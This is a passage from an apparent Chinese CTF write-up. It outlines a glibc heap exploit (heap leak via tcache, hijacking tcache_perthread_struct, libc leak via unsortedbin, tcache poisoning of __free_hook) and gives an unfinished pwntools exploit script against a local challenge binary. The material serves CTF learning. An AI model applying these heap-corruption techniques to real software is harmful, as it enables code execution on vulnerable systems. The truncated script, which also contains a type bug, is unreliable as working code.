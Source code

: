 #### <a class="reference-link" name="%E5%88%A9%E7%94%A8%E5%88%86%E6%9E%90"></a>利用分析

思路很常规，先通过tcache泄露堆地址。

然后先填充tcache_bin的个数为7，劫持tache_struct_perthread这个结构体，申请0x291的堆块，释放到unsortedbin来泄露地址。

最后tcache_poisoning 攻击劫持 free_hook。

#### <a class="reference-link" name="EXP"></a>EXP

```
from pwn import *
context.update(arch='amd64', os='linux', log_level='debug')
context.terminal=(['tmux', 'splitw', '-h'])

filename = './chall'
debug = 1
if debug == 1:
    p = process(filename)
    elf =ELF(filename)
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

def Add(content, idx):
    p.sendlineafter('&gt; ', '0')
    p.sendafter('&gt; ', content)
    p.sendlineafter('&gt; ', str(idx))

def Delete(idx, content):
    p.sendlineafter('&gt; ', '1')
    p.sendlineafter('&gt; ', str(idx))
    p.sendafter('&gt; ', content)

def Delete2(idx):
    p.sendlineafter('&gt; ', '1')
    p.sendlineafter('&gt; ', str(idx))

def Pwn():
    for i in range(2):
        Add('a'*7, i)
    Add('a'*7, 7)
    Add('a'*7, 8)
    gdb.attach(p, 'bp $rebase(0x14f8)')
    Delete(1, 'a'*7)
    Delete2(0)
    heap_addr = u64(p.recvuntil(b'\n', drop=True).ljust(8, b'\x00'))
    print('heap_addr:',hex(heap_addr))
    payload = p64(heap_addr-0x11ed0+0x58)
    #print('heap_struct:',hex(payload))
    p.sendafter('&gt; ', payload[:7])

    Add('a'*7, 1)
    print("tcache_struct attack")
    payload = b'\x07\x00'*3+'\x07'
    Add(payload, 2)

    for i in range(3,5):
        Add('a'*7, i)

    Delete(4, 'a'*7)
    payload = p64(heap_addr-0x11ed0+0x10)
    Delete(3, payload[:7])

    Add('a'*7, 5)
    #tcache_struct
```